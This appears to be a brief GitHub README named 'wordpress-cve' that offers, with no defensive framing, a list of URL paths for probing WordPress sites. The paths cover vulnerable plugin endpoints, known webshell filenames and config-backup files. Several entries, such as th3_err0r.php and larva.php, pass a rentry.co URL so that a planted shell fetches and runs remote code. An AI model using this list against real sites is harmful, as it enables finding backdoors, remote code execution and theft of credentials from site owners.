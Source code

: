 # wordpress-cve

experts. check this:

/wp-content/plugins/wpdiscuz/themes/default/style-rtl.css

/wp-content/plugins/fancy-product-designer/inc/custom-image-handler.php

/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

/wp-content/langar.php

/test.php?Ghost=send

/config.php

/upload.php

/up.php

/wp-includes/small.php

/wp-includes/lfx.php

/wp-content/mu-plugins/db-safe-mode.php

/legion.php

/wp-content/wp-old-index.php?action=login&pass=-1&submit=

/haders.php

/wp-content/plugins/wpconfig.bak.php?act=sf

/wp-content/plugins/ubh/up.php

/wp-includes/css/wp-config.php

/wp-content/plugins/config.bak.php

/wp-content/themes/config.bak.php

/wp-includes/config.bak.php

/wp-content/config.bak.php

/wp-admin/config.bak.php

/config.bak.php

/old-index.php

/wp-includes/css/css.php

/wp-includes/fonts/css.php

/wp-1ogin_bak.php

/wp-content/wp-1ogin_bak.php

/cindex.php

/wp-booking.php

/alfa.php

/alfindex.php

/th3_err0r.php?php=https://rentry.co/yu8xc/raw

/larva.php?idb=https://rentry.co/yu8xc/raw

/wpindex.php?idb=https://rentry.co/yu8xc/raw

/xmlrp.php?url=https://rentry.co/yu8xc/raw

/wp-content/plugins/ioptimization/IOptimize.php?rchk

/wp-content/db_cache.php

/wp-content/plugins/backup_index.php

/boom.php?x

/?3x=3x

/index.php?3x=3x

/admin.php

/wp-content/plugins/t_file_wp/t_file_wp.php?test=hello

/moduless.php

/style.php

